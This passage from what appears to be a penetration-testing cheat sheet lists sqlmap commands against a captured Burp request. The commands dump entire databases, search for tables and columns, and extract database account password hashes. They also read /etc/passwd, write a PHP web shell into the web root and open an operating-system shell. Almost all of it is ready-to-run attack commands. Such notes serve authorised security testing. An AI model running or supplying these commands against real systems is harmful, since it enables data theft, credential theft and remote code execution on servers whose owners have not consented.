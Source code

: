 {% tab title="Full DBMS" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req --dump-all --exclude-sysdbs --batch -v
```
{% endcode %}
{% endtab %}

{% tab title="Hail Mary" %}
```bash
sqlmap -r burp.req --all --batch -v 0
```
{% endtab %}
{% endtabs %}

### Advanced Data Exfil

{% tabs %}
{% tab title="Table Name" %}
```bash
sqlmap -r burp.req --search -T tableName --batch -v 0
```
{% endtab %}

{% tab title="Col Name" %}
```bash
sqlmap -r burp.req --search -C colName --batch -v 0
```
{% endtab %}

{% tab title="Connection Creds (DB accounts, not app's)" %}
```bash
sqlmap -r burp.req --passwords --batch -v 0
```
{% endtab %}
{% endtabs %}

### OS Exploitation

{% tabs %}
{% tab title="Read" %}
```bash
sqlmap -r burp.req --batch -v 0 --file-read "/etc/passwd"
```
{% endtab %}

{% tab title="Write" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req --batch -v 0 --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
```bash
sqlmap -r burp.req --batch -v 0 --os-shell
```
{% endtab %}
{% endtabs %}
